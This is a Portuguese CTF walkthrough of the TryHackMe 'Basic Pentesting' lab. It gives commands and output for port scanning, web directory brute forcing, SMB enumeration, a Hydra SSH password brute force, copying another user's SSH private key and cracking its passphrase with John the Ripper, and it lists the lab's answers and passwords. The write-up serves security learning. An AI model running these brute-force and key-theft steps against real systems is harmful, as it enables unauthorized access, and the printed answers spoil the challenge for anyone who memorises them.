


# Basic Pentesting - TryHackMe  
**Dificuldade:** Fácil  
**Data:** 11/08/2025  

---

> **Aviso importante:**  
> Este write-up refere-se a um laboratório público disponível no TryHackMe. Todo o conteúdo aqui é destinado a fins educacionais e de aprendizado em segurança da informação.  

**Laboratório disponível em:** `https://tryhackme.com/room/basicpentestingjt`

---

### 1. Implante a máquina e conecte-se à nossa rede
**Resposta:** `Não é necessária resposta`

---

### 2. Encontre os serviços expostos pela máquina
**Resposta:** `Não é necessária resposta`

Para mapear os serviços que estão em execução na máquina, utilizamos o Nmap com os seguintes parâmetros:

- `-T5`: modo rápido de scan  
- `-sC`: scripts padrão do Nmap  
- `-sV`: detecção de versão dos serviços  
- `-Pn`: desabilita ping, assume host ativo

```bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -T5 -sC -sV -Pn 10.201.18.169
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-11 10:18 -03
Nmap scan report for 10.201.18.169
Host is up (0.29s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:c6:2c:94:4f:58:60:5c:a4:f5:04:9e:26:42:fb:c1 (RSA)
|   256 19:38:fe:53:f3:7e:f1:20:90:94:02:fb:31:e7:64:e7 (ECDSA)
|_  256 c0:67:82:af:48:97:04:cb:a0:e4:ff:e9:fb:34:5d:13 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-08-11T13:19:33
|_  start_date: N/A
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 37s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.20 seconds
```

Podemos observar que a máquina está executando os seguintes serviços importantes:

- SSH na porta 22

- Servidor HTTP Apache na porta 80

- Samba nas portas 139 e 445

- Apache Tomcat na porta 8080

---

### 3. Qual é o nome do diretório oculto no servidor web (digite o nome sem /)?

Ao acessar a página principal via HTTP (porta 80), visualizamos uma mensagem de manutenção



Para descobrir diretórios ocultos, utilizamos o feroxbuster, uma ferramenta de brute force para diretórios e arquivos web. (também pode ser utilizado ferramentas como dirb, gobuster ou outro de sua preferência para brute force de diretórios)

```
┌──(root㉿kali)-[/home/kali]
└─# feroxbuster -u http://10.201.18.169 -w /usr/share/wordlists/dirb/common.txt
                                                                        
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.201.18.169
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       10l       24w      158c http://10.201.18.169/
301      GET        9l       28w      320c http://10.201.18.169/development => http://10.201.18.169/development/
200      GET        9l       89w      483c http://10.201.18.169/development/dev.txt
200      GET        7l       42w      235c http://10.201.18.169/development/j.txt
200      GET       10l       24w      158c http://10.201.18.169/index.html
[####################] - 29s     4617/4617    0s      found:5       errors:0      
[####################] - 29s     4614/4614    159/s   http://10.201.18.169/ 
[####################] - 1s      4614/4614    8123/s  http://10.201.18.169/development/ => Directory listing (add --scan-dir-listings to scan)
```

O feroxbuster encontrou o diretório **/development/**, que contém arquivos acessíveis.

**Resposta:** `development`

---

### 4. Força bruta do usuário para encontrar o nome de usuário e a senha
**Não é necessária resposta** <br>

Explorando o diretório oculto `/development`, encontramos os arquivos `dev.txt` e `j.txt` com algumas anotações internas da equipe.



- No `dev.txt` há menção ao uso da versão 2.5.12 do Apache Struts e que o SMB foi configurado.  
- Em `j.txt` é feita uma referência a uma auditoria das senhas no arquivo `/etc/shadow` e alerta para a necessidade de troca da senha do usuário **J**.

Com base nessas informações e nos resultados do Nmap, sabemos que o SMB está ativo. Para enumerar usuários e compartilhamentos SMB, usamos a ferramenta **enum4linux**, que coleta informações do serviço SMB.

```
┌──(root㉿kali)-[/home/kali]
└─# enum4linux 10.201.18.169 
<TRECHO OMITIDO>
[+] Attempting to map shares on 10.201.18.169

//10.201.18.169/Anonymous	Mapping: OK Listing: OK Writing: N/A

```

O enum4linux conseguiu mapear um compartilhamento chamado `Anonymous`, que permite acesso sem autenticação.

Para interagir com esse compartilhamento, utilizamos o smbclient:

```
┌──(root㉿kali)-[/home/kali]
└─# smbclient //10.201.18.169/Anonymous
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 14:31:20 2018
  ..                                  D        0  Thu Apr 19 14:13:06 2018
  staff.txt                           N      173  Thu Apr 19 14:29:55 2018

		14282840 blocks of size 1024. 6260288 blocks available
```
Extraímos o arquivo `staff.txt` para análise:
```
smb: \> get staff.txt
smb: \> exit

┌──(root㉿kali)-[/home/kali]
└─# cat staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
No texto, há uma menção direta ao usuário `Jan`, que é um provável usuário válido na máquina.

---

### 5. Qual é o nome de usuário?

**Resposta:** `jan`

---

### 6. Qual é a senha?
Agora que temos o nome do usuário, podemos tentar fazer um brute force para encontrar a senha SSH do usuário jan. Para isso, utilizamos a ferramenta `Hydra` com a wordlist `rockyou.txt`:

```
┌──(root㉿kali)-[/home/kali]
└─# hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.201.18.169      
[STATUS] 189.33 tries/min, 568 tries in 00:03h, 14343833 to do in 1262:40h, 14 active
[22][ssh] host: 10.201.18.169   login: jan   password: armando
```
**Resposta:** `armando`

---

### 7. Que serviço você usa para acessar o servidor (resposta abreviada em letras maiúsculas)?

**Resposta:** `SSH`

---

### 8. Enumere a máquina para encontrar quaisquer vetores para escalonamento de privilégios

**Resposta:** `Não é necessária resposta`

---

### 9. Qual é o nome do outro usuário que você encontrou (todos em letras minúsculas)?

Após acesso SSH com o usuário `jan`, listamos os diretórios no `/home` para verificar a presença de outros usuários:

```
┌──(root㉿kali)-[/home/kali]
└─# ssh jan@10.201.18.169

jan@ip-10-201-18-169:~$ pwd
/home/jan
jan@ip-10-201-18-169:~$ ls /home
jan  kay  ubuntu
```
Além do usuário `jan`, identificamos o usuário `kay`.

**Resposta:** `kay`

---

### 10. Se você encontrou outro usuário, o que pode fazer com essas informações?

**Resposta:** `Não é necessária resposta`

Explorando o diretório home do usuário `kay`, encontramos a pasta oculta `.ssh/` contendo arquivos importantes para autenticação:

```
jan@ip-10-201-18-169:~$ cd /home/kay
jan@ip-10-201-18-169:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 5 root root 4096 Aug 11 09:16 ..
-rw------- 1 kay  kay   789 Jun 22 13:41 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@ip-10-201-18-169:/home/kay$ cd .ssh/
jan@ip-10-201-18-169:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@ip-10-201-18-169:/home/kay/.ssh$ 
```

O arquivo `id_rsa` é a chave privada SSH do usuário `kay`. Para utilizá-la, primeiro extraímos esse arquivo para nossa máquina local via SCP:

```
┌──(root㉿kali)-[/home/kali]
└─# scp jan@10.201.18.169:/home/kay/.ssh/id_rsa .

jan@10.201.18.169's password: 
id_rsa                                          100% 3326     5.8KB/s   00:00  
```

Após baixar o arquivo, devemos utilizar o módulo `ssh2john` do John The Ripper para converter a chave privada em um formato compativel para quebra de senha:

```
┌──(root㉿kali)-[/home/kali]
└─# ssh2john id_rsa > hash.txt    
```

Agora usamos o John the Ripper com a wordlist `rockyou.txt` para tentar descobrir a senha da chave privada:

```                                                                   
┌──(root㉿kali)-[/home/kali]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2025-08-11 10:50) 14.28g/s 1182Kp/s 1182Kc/s 1182KC/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
**Após a execução, a senha encontrada foi:** `beeswax`

Antes de utilizarmos a chave, ajustamos as permissões para evitar erros no SSH:

```
┌──(root㉿kali)-[/home/kali]
└─# chmod 600 id_rsa 
```

Por fim, acessamos o servidor via SSH com o usuário `kay`, usando a chave privada e a senha encontrada:

```
┌──(root㉿kali)-[/home/kali]
└─# ssh kay@10.201.18.169 -i id_rsa 
Enter passphrase for key 'id_rsa': beeswax
```
---

### 11. Qual é a senha final que você obtém?
Dentro do diretório home do usuário `kay`, encontramos o arquivo `pass.bak` contendo a senha final:

```
kay@ip-10-201-18-169:~$ ls
pass.bak
kay@ip-10-201-18-169:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

**Resposta:** `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

<div align="center"> <h2>CTF CONCLUÍDO! 🚩🏆</h2> </div>